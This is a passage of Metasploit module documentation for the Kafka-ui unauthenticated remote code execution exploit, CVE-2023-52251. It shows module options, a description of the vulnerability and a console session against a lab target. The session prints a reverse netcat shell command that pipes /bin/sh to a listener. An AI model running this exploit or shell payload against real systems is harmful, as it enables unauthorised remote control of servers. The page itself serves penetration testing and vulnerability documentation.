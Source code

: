 ```shell
  Yes

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT    8080             yes       The target port (TCP)
  SSL      false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                   no        The URI to use for this exploit (default is random)
  VHOST                     no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                      or 0.0.0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  A command injection vulnerability exists in Kafka ui between `v0.4.0` and `v0.7.1` allowing
  an attacker to inject and execute arbitrary shell commands via the `groovy` filter parameter
  at the `topic` section.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2023-52251
  https://attackerkb.com/topics/ATJ1hTVB8H/cve-2023-52251
  https://github.com/BobTheShoplifter/CVE-2023-52251-POC


View the full module info with the info -d command.
```

## Options
No specific options for this module.

## Scenarios
### Kafka-ui v0.7.0 Unix/Linux Command - cmd/unix/reverse_netcat
```shell
msf6 exploit(linux/http/kafka_ui_unauth_rce_cve_2023_52251) > set verbose true
verbose => true
msf6 exploit(linux/http/kafka_ui_unauth_rce_cve_2023_52251) > exploit

[+] mkfifo /tmp/cpzbj; nc 192.168.201.8 4444 0</tmp/cpzbj | /bin/sh >/tmp/cpzbj 2>&1; rm /tmp/cpzbj
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.25:8080 can be exploited.
[+] The target is vulnerable. Kafka-ui version: 0.7.0
[*] Executing Unix/Linux Command for cmd/unix/reverse_netcat
[*] Searching for active Kafka cluster...
[+] Active Kafka cluster found: local
```